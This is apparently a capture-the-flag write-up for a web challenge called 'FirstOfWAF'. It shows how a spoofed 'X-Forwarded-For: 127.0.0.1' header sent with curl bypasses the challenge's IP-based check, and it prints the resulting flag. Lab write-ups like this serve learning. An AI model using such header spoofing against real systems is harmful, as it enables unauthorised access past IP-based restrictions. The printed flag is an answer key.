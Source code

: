 #### FirstOfWAF
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9e7c8851-8a64-4297-b691-bfa765cfc7d5)

Going over to the web url shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fd50198f-d971-478c-8d61-5ce8e66b0b40)

The text `FORWARDED` was bolden this gives the hint to use the `X-Forwarded-For` header

I used `curl` and added the header to my request then got the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c3b22f9b-aec5-4ba6-8d8c-44a462da83a2)

```
curl -H "X-Forwarded-For: 127.0.0.1" https://csean-waf.chals.io/
```

```
Flag: csean-ctf{NO_PLACE_L!k3_0x7f000001}
```
